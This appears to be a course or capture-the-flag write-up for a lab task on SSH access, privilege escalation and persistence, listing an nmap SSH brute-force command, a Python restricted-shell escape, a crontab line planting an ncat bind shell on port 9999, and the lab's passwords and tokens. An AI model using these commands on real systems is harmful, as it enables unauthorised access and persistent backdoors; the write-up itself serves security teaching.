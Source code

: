## 6: Privilege Escalation and Persistence

The task is simple: Get SSH access to moriarty@192.168.1.193 and find flag.
We are given a hint: Despite being a criminal mastermind, 
this person loves reading superhero comic books….. nerd!

So first we tried to bruteforce the password for user moriarty using the list
of 1000 most common passwords (https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt)
and command:

```
sudo nmap -sS -sV -p 22 192.168.1.193 -v -n --script ssh-brute --script-args userdb=names.txt,passdb=1000-most-common-passwords.txt
```

This sadly failed and didn't find the correct password.
So we tried to guess what the password might be and on the first try we get in;
the password was 'batman'.

After getting in we see, that we have only 2 command available, python and ls.
Using python we are able to spawn a shell:

```
import os; print(os.system('/bin/bash'))
```

After that, we could roam freely all over the server.
First thing we did was to have some persistence we added following line to crontab:

```
(crontab -l ; echo "@reboot sleep 200 && ncat -l 9999 -k -c /bin/bash")|crontab 2> /dev/null
```

Which will upon reboot spawn a shell acessible on port 9999.

After that, we explore more of what we can do. After a few minutes we stumble upon
folder assignment07 under /home/user which contains script for the 7th assignment.
In file password_rotator.sh we find whole script for the assignment from which we draw following conclusions:

1. The passwords that the user rotates are: "superman" "ironman" "batman" "4a7#mgannn2LDD90T#1fX#0Yx%m!kxrMSmUXd60xKwdM0S6u"

2. The file with second token is: /var/tmp/tokens/second_token.txt and it's content
changes to following values: "Hysterical" "Spaghetti" "Floss" "Apparently"
which together give the token for second part of the assignment: HystericalSpaghettiFlossApparently
This token is also in the first comment in the script
```
#TOKEN:HystericalSpaghettiFlossApparently
```

3. The flag server for second part of the assignment is 192.168.1.167:9453

4. On password rotation all ssh session to moriarty are killed so we won't be able
to persist our ssh connection but we can definitely spawn a remote shell which shouldn't
get killed by the script.

After looking into the /vat/tmp/tokens folder we find token and flag server for first part
of the task as well. We try to submit both flags but flag for token for the part B doesn't
work which we later get to know was unintentional.


